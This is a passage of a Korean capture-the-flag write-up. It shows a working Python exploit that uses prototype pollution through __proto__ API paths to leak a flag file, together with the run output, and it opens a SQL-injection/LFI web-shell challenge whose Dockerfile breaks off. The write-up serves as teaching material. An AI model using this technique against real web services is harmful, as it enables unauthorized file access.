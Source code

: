 ```python

# Login
token = requests.post(CHALL_URL + '/api/users/auth', headers=HEADER, data=json.dumps({"userid":USERNAME, "pass":PASSWORD})).json()
TOKEN = token['token'] 
print(f"[+] Token : {TOKEN}")

# Prototype Pollution * 6
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"pass", "file_path":"pass"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"owner", "file_path":"pass"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"expire", "file_path":"100000000000"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"base_dir", "file_path":"/usr"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"src/app/flag", "file_path":"src/app/flag"}))
requests.post(CHALL_URL + f'/api/users/{USERNAME}/__proto__', headers=HEADER, data=json.dumps({"token":TOKEN, "file_name":"workspaces", "file_path":"asdf"}))

# Leak the flag
LEAK_DATA = requests.get(CHALL_URL + '/api/users/pass/__proto__/src%2fapp%2fflag', headers=HEADER, data=json.dumps({"token":"pass"})).json()

try:
    print(f"[+] Leak Data : {base64_decode(LEAK_DATA['file_content'])}")
except:
    print(f"[+] Leak Data : {LEAK_DATA}")
```
위와 같이 익스플로잇 코드를 작성했다. 여기서 웃긴 건 `base_dir`로 `/usr/src/app`을 주고 `f_path`의 값으로 `flag`를 주면 500 에러가 반환됐고, 또 `f_path`의 키 값이 `f_path`와 동일하지 않아도 500 에러가 반환됐다. 이 외에도 여러 에러들이 있는데 진짜 이거 때문에 스트레스 받았다.

```sh
❯ python3 nss-poc.py 
[+] USERNAME : 4896
[+] Token : b9ab24d6a79dda202bf365541d67998a2c5bf5ce
[+] Leak Data : b'GoN{4he_be4uty_0f_pr0t0typ3_p011uti0n}\n'
```
```plaintext
FLAG : GoN{4he_be4uty_0f_pr0t0typ3_p011uti0n}
```

---
### (V) - ColorfulMemo [490 pts]

ColorfulMemo는 `SQL Injection`을 이용해서 웹 쉘을 업로드하고, `LFI` 취약점을 통해 `RCE`를 트리거하는 문제이다. 꽤나 신박했다.

```docker
FROM mysql:8.0-debian

ENV MYSQL_RANDOM_ROOT_PASSWORD=yes
ENV MYSQL_USER=user
ENV MYSQL_PASSWORD=password
ENV MYSQL_DATABASE=colorfulmemo
ENV TZ=Asia/Seoul
ENV OPENSSL_CONF=/dev/null

RUN sed -i 's/deb.debian.org/mirror.kakao.com/g' /etc/apt/sources.list 

RUN apt-get update -y \
 && DEBIAN_FRONTEND=noninteractive \
    apt-get install --no-install-recommends -y \
        gcc wget bzip2 python3-pip python3-setuptools \
        software-properties-common apache2 php php-mysqli \
```